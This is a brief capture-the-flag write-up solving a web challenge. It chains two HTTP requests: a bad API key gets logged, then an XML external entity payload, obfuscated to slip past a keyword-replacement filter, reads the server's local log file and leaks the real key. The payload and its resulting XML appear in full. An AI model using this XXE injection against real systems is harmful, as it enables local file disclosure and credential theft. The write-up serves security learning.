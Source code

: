 # Objective

# Solution

First send a request with a bad apiKey to generate log file. Then read log file with second request.

The issue is how they are replacing strings in the xml file. You want to create an entity that is able to read a local file (the log file).

```
### First send the first request
### Second send the second request

POST https://chal35-g7sg4j.vercel.app/getCRMUsers HTTP/1.1
Content-Type: application/json

{
    "apiKey": "wrong"

}

### apiKey really is H858FDSKL49FK09K4590KFK2390KCFVC12

POST https://chal35-g7sg4j.vercel.app/createCard HTTP/1.1
Content-Type: application/json

{
    "role": "role"> --> <ENTITY!EDOCTYPENDOCTYPETDOCTYPEIDOCTYPETDOCTYPEY role SENTITYYENTITYSENTITYTENTITYEENTITYM "/tmp/last_req.log",
    "firstName": "fn",
    "lastName": "ln"> <ENTITY!--"
}

###
```

The second request will generate XML that looks like this: (note the contents of the log file are injected)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
<!ENTITY firstName "fn">
<!ENTITY lastName "ln">
<!--">
<!ENTITY role "role"> --><!ENTITY role SYSTEM "/tmp/last_req.log">
]>
<userInfo>
<fullRef>fn ln, Expected API Key: H858FDSKL49FK09K4590KFK2390KCFVC12 | Received API Key: wrong</fullRef>
<firstName>fn</firstName>
<lastName>ln</lastName>
</userInfo>
```
